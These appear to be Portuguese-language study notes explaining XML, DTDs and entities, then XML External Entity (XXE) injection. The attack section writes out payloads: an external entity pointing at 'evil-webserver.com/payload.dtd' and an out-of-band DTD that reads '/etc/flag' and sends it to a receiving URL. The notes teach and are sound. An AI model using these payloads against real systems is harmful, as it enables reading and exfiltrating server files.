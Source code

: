 # Ataques

## XML External Entities Injection (XXE Injection)
Esse tipo de ataque se aproveita do processamento de dados XML da aplicação. Ou seja, o atacante envia um PAYLOAD que é tratado pelo XML Parser que não é tratado da forma que deveria.

Mas o que é XML? 

### Extensible Markup Language (XML)
Serve para armazenamento e transporte de dados (como o JSON) mas utiliza tags (como o HTML). Exemplo:
```
<?xml version="1.0" enconding="UTF-8"?>
<msg lang="pt-br" category="web">
    <from> Ganeshers </from>
    <to> All </to>
    <title> PING 2020 </title>
    <body>Exemplo de XML </body>
</msg>
```
Mas diferente do HTML, o XML não tem tags padrões. A pessoa que o utiliza escolhe os nomes das tags e dos atributos.

Além disso, o XML possui o Document Type Definition (DTD) que define como o XML será estruturado. Isso é dentro do elemento DOCTYPE interna (dentro do XML) ou externa (em outro arquivo). Exemplo (interno):
```
<?xml version="1.0" enconding="UTF-8"?>
<!DOCTYPE doctype_name[
    <!-----ELEMENT [nome da tag] [conteudo que ficará dentro da tag]----->
    <!ELEMENT elem1 (elem2, elem3)> <!-------Dentro dere ficará dois elementos, elem1 e elem2----->
    <!ELEMENT elem2 (#PCDATA)> <!-------O conteúdo é um texto-----> 
    <!ELEMENT elem3 (#PCDATA)>
]>
<elem1>
    <elem2> Dados do elem2 </elem2>
    <elem3> Dados do elem3 </elem3>
<elem1>
```
Além de definir elementos, o DTD define entidades. As entidades representam itens do documento XML sem usar seus dados diretamente. Existem entidades especificas do XML (padrões):
- &lt (<)  
- &gt (>)    

Ou entidades customizadas que são criadas dentro do DTD. Exemplo:
```
<?xml version="1.0" enconding="UTF-8"?>
<!DOCTYPE doctype_name[ <!ENTITY texto "Hello World"> ]>
<!----É como se texto fosse uma variavel com "Hello World" dentro---->
<tag> &lt;&texto;&gt; </tag>
```
Quando isso fosse lido pelo XML Parser, o &texto; seria substituido pelo texto "Hello World" e as entidades padrões seriam substituidas também, ficando com:
```
<tag> <Hello World> <tag>
```
As entidades podem ser definidas no documento XML (DTD) ou externamente ao documento XML (buscado fora do DTD). Esse tipo de entidade vem com a palavra-chave SYSTEM +URL que contém a definição.
```
!<!DOCTYPE doctype_name [ <!ENTITY entity_name SYSTEM "http://website.com> ]>

<!DOCTYPE foo [ <!ENTITY entity_name SYSTEM "file:///path/to/file> ]>

<!---Essa entidade entity_name vale o que quer que esteja dentro desse caminho passado--->
```

### Voltando ao ataque
Consiste em injetar entidades em um XML que geram um comportamento incorreto.

[Fluxo do XXL](./aula04/xxe-flow.png)

É feito um POST com um XXE Data, ou seja, um arquivo XML com uma entidade definida externamente.
```
<!DOCTYPE [ ext SYSTEM "https://evil-webserver.com/payload.dtd ]>  
```
O servidor busca externamente esse payload.dtd. Mas dentro desse dtd ele busca uma informação sigilosa. Por fim, o payload.dtd também faz uma busca por uma entidade externa, e o conteúdo da entidade com dados sigilosas é enviado dentro da URL da requisição GET.

Então, exemplo:
Temos um código que possui um XML Parser. Então, enviamos um conteúdo para esse XML Parser que possui uma entidade externa definida, como
```
<?xml version="1.0" enconding="UTF-8"?>
<!DOCTYPE data SYSTEM "http://localhost:8080/host.did">
<data>
    &send;
</data>
```
Esse XML que vamos enviar para o XML Parser faz uma busca a uma entidade externa, nesse exemplo, para o caminho `http://localhost:8080/host.did`.  
Por sua vez, esse caminho devolve o seguinte conteúdo:
```
<!ENTITY % file SYSTEM "file://etc/flag">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://localhost:8080/recebe-dado-sigiloso/%file';>">
```
Esse código será injetado no XML Parser que por sua vez vai buscar um arquivo localmente no servidor `file://etc/flag` e em seguida enviar por meio de outra entidade para `http://localhost:8080/recebe-dado-sigiloso` um parametro que contém o valor da entidade file, que era o conteúdo do arquivo `/etc/flag`.
